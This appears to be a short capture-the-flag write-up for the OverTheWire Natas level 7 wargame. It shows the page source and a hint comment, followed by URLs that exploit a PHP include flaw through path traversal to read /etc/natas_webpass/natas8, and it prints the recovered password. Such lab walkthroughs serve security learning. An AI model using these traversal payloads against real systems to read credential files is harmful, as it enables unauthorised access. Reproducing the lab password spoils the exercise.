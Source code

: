 <a href="index.php?page=home">Home</a>
<a href="index.php?page=about">About</a>
<br>
<br>

<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->

http://natas7.natas.labs.overthewire.org/index.php?page=..

Warning: include(/var/www/natas): failed to open stream: Not a directory in /var/www/natas/natas7/index.php on line 21

Warning: include(): Failed opening '..' for inclusion (include_path='.:/usr/share/php') in /var/www/natas/natas7/index.php on line 21

http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8

xcoXLmzMkoIP9D7hlgPlh9XD7OgLAe5Q 

also path traversal
